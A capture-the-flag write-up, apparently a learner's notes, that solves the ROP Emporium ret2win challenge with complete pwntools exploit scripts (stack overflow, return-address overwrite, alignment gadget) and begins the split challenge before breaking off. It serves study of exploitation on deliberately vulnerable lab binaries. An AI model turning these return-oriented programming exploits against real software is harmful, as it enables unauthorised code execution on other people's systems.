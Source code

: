 # ROP Emporium

This file will include writeups for the ROP Emporium Return Oriented Programming challenges. I am in no means an expert on the ROP exploit technique and this will be purely for a learning purpose.

## Ret2win

**Description:** Locate a method that you want to call within the binary.
Call it by overwriting a saved return address on the stack.

This is the first challenge on ROP Emporioum and here we need to return to a function in the binary by overwriting a saved return address which is currently on the stack. Overwriting this saved return address with a different address (in this case of the function we want to call) will make the `ret` keyword pop this new value on (or in??) to the `rip` register, essentially redirecting execution.

Finding this function can be done in many ways, I chose to use Ghidra to decompile the binary for starters. Using ghidra we easily see that there is a function called `ret2win` in the binary. This function will use `system()` to print the flag for us:

```C
void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

We simply need to redirect execution to this function. We will use pwndbg to figure out where in memory this is located and try to use pwntools with Python to solve it.

Using `checksec` we see that the stack is NX protected but also that PIE is not enabled: 

```checksec
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Using GDB we can print the location of the `ret2win` function by typing `print ret2win` which will result in `$1 = {<text variable, no debug info>} 0x400756 <ret2win>`.

To find the offset we can use cyclic with `cyclic -n 8 100` to generate a 8 byte repeating pattern of a 100 characters. Inputing this pattern and searching for the value the `rsp` register is poiting to, will give us the offset needed to overwrite the return address. *Note* we need to set `-n 8` because the binary is 64bit.

Then using `cyclic -n 8 -l faaaaaaa` (faaaaaaa in my case as this was the pattern found in `rsp`, this might change for others). we see that the offset is 40. Meaning we need 40 characters of junk followed by the address of `ret2win`:

```python
from pwn import *

chall = './ret2win-1/ret2win'

context.binary = chall
context.bits = 64

ret2win_address = p64(0x400756)
print(ret2win_address)
offset = b'A'*40

payload = [
    offset,
    ret2win_address
]

payload = b"".join(payload)

p = process([chall])

p.recvuntil(b'>')

p.sendline(payload)
p.interactive()
```

Using this script it looks like we should get the flag, but the process segfaults just before printing it:

 ```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b'V\x07@\x00\x00\x00\x00\x00'
[+] Starting local process './ret2win-1/ret2win': pid 51754
[*] Switching to interactive mode
Thank you!
Well done! Here's your flag:
[*] Got EOF while reading in interactive
$ 
[*] Process './ret2win-1/ret2win' stopped with exit code -11 (SIGSEGV) (pid 51754)
[*] Got EOF while sending in interactive
 ```

This is due to the nature of 64 bit systems where stack alignment is needed due to `movaps` which needs the stack to be 16-bit aligned. See [ironstone](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment) for more info.

Keeping this in mind, as seen on the link above, we need to use a singular `ret;` instruction gadget to align the stack. We can use `ROPgadget` to find such a gadget. `ROPgadget --binary ret2win` and sure enough it finds a gadget at address `0x000000000040053e : ret`. Including this instruction just before the call to `ret2win` will allow for execution of `system(/bin/cat flag
txt)`. 

```python
from pwn import *

chall = './ret2win-1/ret2win'

context.binary = chall
context.bits = 64

ret2win_address = p64(0x400756)
print(ret2win_address)
ret_gadget = p64(0x40053e)
offset = b'A'*40

payload = [
    offset,
    ret_gadget,
    ret2win_address
]

payload = b"".join(payload)

p = process([chall])

p.recvuntil(b'>')

p.sendline(payload)
p.interactive()
```

Yet we receive:

```bash
Thank you!
Well done! Here's your flag:
/bin/cat: flag.txt: No such file or directory
```

Looking as it some path problems occur. Turns out something weird had happened with the folder strucuture, simply moving the files and python script to the folder from which the python script is called solved the issue!

```bash
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

This solves the first challenge!

## Split

**Description:** The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain.

This challenges makes use of some of the same concepts as ret2win did, here the difference is that everything is scattered througout the binary, not implemented into a single win function.

ROP Emporium shows us some quite neat tricks using `radare2's rabin2` package to examine the binary without opening a decompiler like Ghidra.

- Using `radare2.rabin2 -I split` we are able to inspect metadata about the binary such as security and architecure.
- Using `radare2.rabin2 -i split` we are able to see functions from shared libraries.
- Using `radare2.rabin2 -z split` is used to see strings deliberately put into the binary.
- Using `radare2.rabin2 -qs split` lists symbols (using -q for fewer results), to further filter for functions implemented by the programmer of the binary we can pipe the output into grep. The full command will be `radare2.rabin2 -qs split | grep -ve imp -e ' 0 '`.

Using these commands we find out that there are calls to `system` and that we have the string `/bin/cat flag.txt`. We also see the addresses for both `system` (`0x00400560`) and `/bin/cat flag.txt` (`0x00601060`).

In order to parse `/bin/cat flag.txt` to the `system()` function as an argument, we need to load the string into the `rdi` register, as per the calling convention for x86_64. This can be done with a `pop rdi; ret` gadget, and fortunately we have one at `0x4007c3`. Also noting that we have a `ret` gadget for stack alignment at `0x40053e`.

